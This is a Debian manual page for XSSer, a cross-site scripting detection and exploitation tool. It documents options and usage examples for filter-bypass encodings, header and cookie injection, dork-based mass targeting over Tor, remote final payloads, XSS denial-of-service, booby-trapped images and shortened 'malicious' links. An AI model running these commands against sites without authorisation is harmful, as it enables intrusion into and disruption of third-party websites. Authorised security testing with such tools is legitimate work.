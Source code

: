 .\" Debian manual page, has been forwarded upstream
.TH XSSER "15" "Feb 2011"
.SH NAME
xsser: "the mosquito" (swarm edition!)  \-cross site scripter framework\-
.SH SYNOPSIS
.B xsser
.SH DESCRIPTION
Cross Site "Scripter" is an automatic -framework- to detect, exploit and report XSS vulnerabilities in web-based aplications.
.PP
It contains several options to try to bypass certain filters, and various special techniques of code injection.
.PP
.SH INSTALL
XSSer runs on many platforms. It requires Python and the following libraries:
.PP
\- python-pycurl - Python bindings to libcurl
\- python-beautifulsoup - error-tolerant HTML parser for Python
\- python-geoip - Python bindings for the GeoIP IP-to-country resolver library
.PP
On Debian-based systems, run: 
.PP
sudo apt-get install python-pycurl python-beautifulsoup python-geoip
.SH OPTIONS AND FEATURES
[\fIUSAGE\fR]
\-./xsser [OPTIONS] [\-u <url> |\-i <file> |\-d <dork>] [\-g <get> |\-p <post> |\-c <crawl>] [Request(s)] [Vector(s)] [Bypasser(s)] [Technique(s)] [Final Injection(s)]
[\fIOPTIONS\fR]
.TP
\fB\-\-version\fR
show program's version number and exit
.TP
\fB\-h\fR, \fB\-\-help\fR
show this help message and exit
.TP
\fB\-v\fR, \fB\-\-verbose\fR
verbose (default: no)
.TP
\fB\-s\fR, 
show advanced statistics output results
.TP
\fB\-\-gtk\fR
launch XSSer GTK Interface
.[\fI*SPECIAL FEATURES*:\fR]
You can choose Vector(s) and Bypasser(s) to inject code with this
extra special features:
.TP
\fB\-\-imx\fR=\IMX\fR
create a false image with XSS code embedded
.TP
\fB\-\-fla\fR=\FLASH\fR
create a false .swf file with XSS code embedded
.[\fI*SELECT TARGET(S)*:\fR] 
At least one of these options has to be specified to set the source to
get target(s) urls from. You need to choose to run XSSer:
.TP
\fB\-u\fR \URL\fR, \fB\-\-url\fR=\URL\fR
Enter target(s) to audit
.TP
\fB\-i\fR=\READFILE\fR
Read target urls from a file
.TP
\fB\-d\fR=\DORK\fR
Process search engine dork results as target urls
.TP
\fB\-\-De\fR=\DORK_ENGINE\fR
Search engine to use for dorking (bing, altavista, 
yahoo, baidu, yandex, youdao, webcrawler, ask, etc. 
See dork.py file to check for available engines)
.[\fI*SELECT TYPE OF HTTP/HTTPS CONNECTION(S)*:\fR] 
These options can be used to specify which parameter(s) we want to use
like payload to inject code.
.PP
\fB\-g\fR=\GET\fR
Enter payload to audit using GET. (ex: '/menu.php?q=')
\fB\-p\fR=\POST\fR
Enter payload to audit using POST. (ex: 'foo=1&bar=')
\fB\-c\fR=\CRAWLING\fR
Number of urls to crawl on target(s): 1-99999
\fB\-\-Cw\fR=\CRAWLER_WIDTH\fR
Deeping level of crawler: 1-5
\fB\-\-Cl\fR
Crawl only local target(s) urls (default TRUE)
.[\fI*CONFIGURE REQUEST(S)*:\fR] 
These options can be used to specify how to connect to target(s)
payload(s). You can select multiple:
.PP
\fB\-\-cookie\fR=\COOKIE\fR
Change your HTTP Cookie header
\fB\-\-user\-agent\fR=\AGENT\fR
Change your HTTP User-Agent header (default SPOOFED)
\fB\-\-referer\fR=\REFERER\fR
Use another HTTP Referer header (default NONE)
\fB\-\-headers\fR=\HEADERS\fR
Extra HTTP headers newline separated
\fB\-\-auth\-type\fR=\ATYPE\fR
HTTP Authentication type (value Basic or Digest)
\fB\-\-auth\-cred\fR=\ACRED\fR
HTTP Authentication credentials (value name:password)
\fB\-\-proxy\fR=\PROXY\fR
Use proxy server (tor: http://localhost:8118)
\fB\-\-timeout\fR=\TIMEOUT\fR
Select your Timeout (default 30)
\fB\-\-delay\fR=\DELAY\fR
Delay in seconds between each HTTP request (default 8)
\fB\-\-threads\fR=\THREADS\fR
Maximum number of concurrent HTTP requests (default 1)
\fB\-\-retries\fR=\RETRIES\fR
Retries when the connection timeouts (default 3)
.[\fI*CHECKER SYSTEMS*:\fR]
This options are usefull to know if your target(s) have some filters
against XSS attacks and-or repeat all code who recieved:
.PP
\fB\-\-hash\fR
send a hash to pre-check if target repeats all content
recieved (usefull to predict 'false positive' results)
\fB\-\-heuristic\fR
launch a heuristic testing to discover who parameters
can be filtered on target(s) code: ;\/<>"'=
.[\fI*SELECT VECTOR(S)*:\fR] 
These options can be used to specify a XSS vector source code to
inject in each payload. Important, if you don't want to try to inject
a common XSS vector, used by default. Choose only one option:
.PP
\fB\-\-payload\fR=\SCRIPT\fR
OWN  \- Insert your XSS construction \-manually\-
\fB\-\-auto\fR
AUTO \- Insert XSSer 'reported' vectors from file
.[\fI*SELECT BYPASSER(S)*:\fR] 
These options can be used to encode selected vector(s) to try to
bypass all possible anti-XSS filters on target(s) code and some IPS
rules, if the target use it. Also, can be combined with other
techniques to provide encoding:
.PP
\fB\-\-Str\fR
Use method String.FromCharCode()
\fB\-\-Une\fR
Use function Unescape()
\fB\-\-Mix\fR
Mix String.FromCharCode() and Unescape()
\fB\-\-Dec\fR
Use Decimal encoding
\fB\-\-Hex\fR
Use Hexadecimal encoding
\fB\-\-Hes\fR
Use Hexadecimal encoding, with semicolons
\fB\-\-Dwo\fR
Encode vectors IP addresses in DWORD
\fB\-\-Doo\fR
Encode vectors IP addresses in Octal
\fB\-\-Cem\fR=\CEM\fR
Try -manually- different Character Encoding mutations
(reverse obfuscation: good) -> (ex: 'Mix,Une,Str,Hex')
.[\fI*SPECIAL TECHNIQUE(S)*:\fR] 
These options can be used to try to inject code using different type
of XSS techniques. You can select multiple:
.PP
\fB\-\-Coo\fR
COO - Cross Site Scripting Cookie injection
\fB\-\-Xsa\fR
XSA - Cross Site Agent Scripting
\fB\-\-Xsr\fR
XSR - Cross Site Referer Scripting
\fB\-\-Dcp\fR
DCP - Data Control Protocol injections
\fB\-\-Dom\fR
DOM - Use Anchor Stealth (DOM shadows!)
.[\fI*SELECT FINAL INJECTION(S)*:\fR] 
These options can be used to specify the final code to inject in
vulnerable target(s). Important, if you want to exploit on-the-wild
your discovered vulnerabilities. Choose only one option:
.PP
\fB\-\-Fp\fR=\FINALPAYLOAD\fR
OWN    - Insert your final code to inject -manually-
\fB\-\-Fr\fR=\FINALREMOTE\fR
REMOTE - Insert your final code to inject -remotelly-
\fB\-\-Dos\fR
DOSs    - XSS Denial of service (server) attack!!
\fB\-\-Dos\fR
DOS    - XSS Denial of service (client) attack!!
\fB\-\-B64\fR
B64    - Base64 code encoding in META tag (rfc2397)
.[\fI*Miscellaneous*:\fR] 
\fB\-\-silent\fR
inhibit console output results
\fB\-\-update\fR
check for XSSer latest stable version
\fB\-\-save\fR
output all results directly to template (XSSlist.dat)
\fB\-\-xml\fR=\FILEXML\fR
output 'positives' to aXML file (--xml filename.xml)
\fB\-\-publish\fR
output 'positives' to Social Networks (identi.ca)
\fB\-\-short\fR=\SHORTURLS\fR
display -final code- shortered (tinyurl, is.gd)
\fB\-\-launch\fR
launch a browser at the end with each XSS discovered
.SH EXAMPLES OF USAGE
* Simple injection from URL:
.PP
$ python XSSer.py \-u "http://host.com"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Simple injection from File, with tor proxy and spoofing HTTP Referer headers:
.PP
$ python XSSer.py \-i "file.txt" \-\-proxy "http://127.0.0.1:8118" \-\-referer "666.666.666.666"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Multiple injections from URL, with automatic payloading, using tor proxy, injecting on payloads character encoding in "Hexadecimal", with verbose output and saving results to file (XSSlist.dat):
.PP
$ python XSSer.py -u "http://host.com" --proxy "http://127.0.0.1:8118" --auto --Hex --verbose -w
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Multiple injections from URL, with automatic payloading, using caracter encoding mutations (first, change payload to hexadecimal; second, change to StringFromCharCode the first encoding; third, reencode to Hexadecimal the second encoding), with HTTP User-Agent spoofed, changing timeout to "20" and using multithreads (5 threads):
.PP
$ python XSSer.py \-u "http://host.com" \-\-auto \-\-Cem "Hex,Str,Hex" \-\-user\-agent "XSSer!!" \-\-timeout "20" \-\-threads "5"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Advance injection from File, payloading your \-own\- payload and using Unescape() character encoding to bypass filters:
.PP
$ python XSSer.py \-i "urls.txt" \-\-payload 'a="get";b="URL(\"";c="javascript:";d="alert('XSS');\")";eval(a+b+c+d);' \-\-Une
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Injection from Dork selecting "duck" engine (XSSer Storm!):
.PP
$ python XSSer.py \-\-De "duck" \-d "search.php?"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Injection from Crawler with deep 3 and 4 pages to see (XSSer Spider!):
.PP
$ python XSSer.py \-c3 \-\-Cw=4 \-u "http://host.com"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Simple injection from URL, using POST, with statistics results:
.PP
$ python XSSer.py \-u "http://host.com" \-p "index.php?target=search&subtarget=top&searchstring=" \-s
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Multiple injections from URL to a parameter sending with GET, using automatic payloading, with IP Octal payloading ofuscation and printering results in a "tinyurl" shortered link (ready for share!):
.PP
$ python XSSer.py \-u "http://host.com" \-g "bs/?q=" \-\-auto \-\-Doo \-\-short tinyurl
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Simple injection from URL, using GET, injecting a vector in Cookie parameter, trying to use a DOM shadow space (no server logging!) and if exists any "hole", applying your manual final payload "malicious" code (ready for real attacks!):
.PP
$ python XSSer.py \-u "http://host.com" \-g "bs/?q=" \-\-Coo \-\-Anchor \-\-Fr="!enter your final injection code here!"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Simple injection from URL, using GET and trying to generate with results a "malicious" shortered link (is.gd) with a valid DoS (Denegation Of Service) browser client payload:
.PP
$ python XSSer.py \-u "http://host.com" \-g "bs/?q=" \-\-Dos \-\-short "is.gd"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Multiple injections to multiple places, extracting targets from a list in a FILE, applying automatic payloading, changing timeout to "20" and using multithreads (5 threads), increasing delay between petitions to 10 seconds, injecting parameters in HTTP USer\-Agent, HTTP Referer and in Cookie parameters, using proxy Tor, with IP Octal ofuscation, with statistics results, in verbose mode and creating shortered links (tinyurl) of any valid injecting payloads found. (real playing mode!):
.PP
$ python XSSer.py \-i "list_of_url_targets.txt" \-\-auto \-\-timeout "20" \-\-threads "5" \-\-delay "10" \-\-Xsa \-\-Xsr \-\-Coo \-\-proxy "http://127.0.0.1:8118" \-\-Doo \-s \-\-verbose \-\-Dos \-\-short "tinyurl"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Injection of user XSS vector directly in a malicious \-fake\- image created "on the wild", and ready to be uploaded.
.PP
$ python XSSer.py \-\-Imx "test.png" --payload "!enter your malicious injection code here!"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Report output 'positives' injections of a dorking search (using "ask" dorker) directly to a XML file.
.PP
$ python XSSer.py \-d "login.php" \-\-De "ask" \-\-xml "security_report_XSSer_Dork_cuil.xml"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Publish output 'positives' injections of a dorking search (using "duck" dorker) directly to http://identi.ca
(federated XSS pentesting botnet)
.PP
$ python XSSer.py \-d "login.php" \-\-De "duck" \-\-publish
.PP
* Examples online:
.PP
- http://identi.ca/xsserbot01
- http://twitter.com/xsserbot01
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Create a .swf movie with XSS code injected
.PP
$ python XSSer.py \-\-imx "name_of_file"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Send a pre\-checking hash to see if target will generate \-false positive\- results
.PP
$ python XSSer.py \-u "host.com" \-\-check
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Multiple fuzzing injections from url, including DCP injections and exploiting our "own" code, spoofed in a shortered link, on positive results founded. XSS real\-time exploiting.
.PP
$ python XSSer.py \-u "host.com" \-\-auto \-\-Dcp \-\-Fp "enter_your_code_here" \-\-short "is.gd"
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Exploiting Base64 code encoding in META tag (rfc2397) in a manual payload of a vulnerable target.
 .PP
$ python XSSer.py \-u "host.com" \-g "vulnerable_path" \-\-payload "valid_vector_injected" \-\-B64
.PP
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\
* Exploiting our "own" \-remote code\- in a payload discovered using fuzzing and launch it in a browser directly
.PP
$ python XSSer.py \-u "host.com" \-g "vulnerable_path" \-\-auto \-\-Fr "my_host/path/code.js" \-\-launch
.PP
.SH CONTRIBUTE
If you want to contribute to XSSer development reporting a bug, providing a patch, commenting on the code base or simply need to find help to run XSSer first refer to the xsser documentation, then surf the xsser mailing list (Xsser\-users@lists.sourceforge.net) online archives and if you still have something to say, do that on the appropriate xsser mailing list. If nobody gets back to you, then drop me an e\-mail (root@lordepsylon.net \- epsylon@riseup.net).
.PP
If you discover any vulnerability in a software using XSSer, please add to the report a link to this site (xsser.sf.net).
.PP
.SH COPYRIGHT
Copyright © 2008 Free Software Foundation, Inc.   License  GPLv3+:  GNU
GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This  is  free  software:  you  are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
.SH SEE ALSO
.BR top (1)
.SH AUTHOR
xsser was written by R.C.Mérida (psy).

